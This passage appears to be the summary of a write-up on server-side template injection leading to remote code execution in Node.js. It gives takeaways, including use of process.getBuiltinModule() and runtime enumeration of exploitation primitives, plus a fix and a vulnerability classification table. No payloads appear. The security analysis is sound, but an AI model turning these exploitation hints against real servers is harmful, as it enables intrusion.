* Node.js v20.16.0 introduced `process.getBuiltinModule()`, which provides a modern mechanism for accessing built-in modules.
* Runtime enumeration is useful for determining which exploitation primitives are actually available.
* The fundamental fix is to prevent attacker-controlled input from being interpreted as executable templates.

## Vulnerability Classification

| Category     | Value                                                                            |
| ------------ | -------------------------------------------------------------------------------- |
| Type         | Server-Side Template Injection (SSTI) → Remote Code Execution (RCE)              |
| OWASP Top 10 | A03:2021 – Injection                                                             |
| CWE          | CWE-1336 – Improper Neutralization of Special Elements Used in a Template Engine |
